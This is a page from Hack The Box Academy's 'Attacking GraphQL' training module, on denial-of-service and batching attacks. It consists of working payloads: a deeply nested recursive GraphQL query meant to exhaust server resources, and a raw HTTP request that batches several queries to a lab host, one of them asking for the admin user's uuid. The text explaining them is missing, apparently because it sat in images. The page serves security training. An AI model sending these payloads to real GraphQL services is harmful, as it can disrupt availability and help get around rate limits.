 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/271/section/3155
// Platform Version: V1
// Module ID: 271
// Module Name: Attacking GraphQL
// Module Difficulty: Medium
// Section ID: 3155
// Section Title: Denial-of-Service (DoS) & Batching Attacks
// Page Title: Attacking GraphQL
// Page Number: 05
-->

# Denial-of-Service (DoS) & Batching Attacks

**Module Name:** Attacking GraphQL **Page Number:** 05

#### ATTACKING GRAPHQL Mini-Module

# Denial-of-Service (DoS) & Batching Attacks

## Denial-of-Service (DoS) Attacks

![https://academy.hackthebox.com/storage/modules/271/info_5.png](https://academy.hackthebox.com/storage/modules/271/info_5.png)

``` graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              username
            }
          }
        }
      }
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/dos_1.png](https://academy.hackthebox.com/storage/modules/271/dos_1.png)

``` graphql
{
  posts {
    author {
      posts {
        edges {
          node {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      username
                                                                    }
                                                                  }
                                                                }
                                                              }
                                                            }
                                                          }
                                                        }
                                                      }
                                                    }
                                                  }
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```

![https://academy.hackthebox.com/storage/modules/271/dos_2.png](https://academy.hackthebox.com/storage/modules/271/dos_2.png)

## Batching Attacks

``` http
POST /graphql HTTP/1.1
Host: 172.17.0.2
Content-Length: 86
Content-Type: application/json

[
	{
		"query":"{user(username: \"admin\") {uuid}}"
	},
	{
		"query":"{post(id: 1) {title}}"
	}
]
```

![https://academy.hackthebox.com/storage/modules/271/batching_1.png](https://academy.hackthebox.com/storage/modules/271/batching_1.png)

####